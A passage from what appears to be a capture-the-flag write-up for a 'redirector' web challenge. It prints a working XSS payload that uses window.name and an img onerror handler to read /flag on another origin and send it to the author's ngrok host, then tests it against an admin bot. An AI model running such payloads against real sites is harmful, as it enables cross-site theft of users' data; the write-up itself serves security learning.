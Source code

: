 Now I need a little bigger javascript to trigger on the `img` on error event. To make it more readable, I created a formatted script tag and just get the innerHTML to fill the onerror event.

Let's move to `seectf-2022-redirector.html`.

```html
<html>
<script id='payload'>
    base_addr = 'http://7f0d-2804-14d-5cd0-9fd9-def-e5eb-a371-d855.ngrok.io';
    fetch('/flag')
        .then((response) => response.text())
        .then(
            (text) => 
                fetch(base_addr + '/flagleak?data=' + encodeURIComponent(text), {
                    'mode': 'no-cors'
                })
        );
</script>
<script id='starter'>
    payload = document.getElementById('payload').innerHTML;
    window.name = '<img src="http://any.xngrok.io/img.jpg" onerror="'+payload+'">';
    window.location.href = 'http://app2/?length=';
</script>
</html>
```

It does what we want, sending the leaked flag to our ngrok.

From here on, we need to use our local Admin Bot to test it, since it checks for the admin ip and we don't have it. The admin is the IP returned by the name "admin" on the Docker Network.

It's listening on port 8000.
Let's knock on it and send our poison.

![](https://i.imgur.com/etU9NJh.png)

After some 2 seconds coffee...

![](https://i.imgur.com/mkiZFCf.png)

And... in the real challenge.

![](https://i.imgur.com/jVD0aW1.png)

Flag is ours.

## Lessons Learned

Most parts of this challenge are common in XSS challenges. The new thing here (for me) was using a controlled window to inject variables on a page of another domain.

That was awesome and now part of the utilities belt.

![](https://i.imgur.com/IEWaHjm.png)
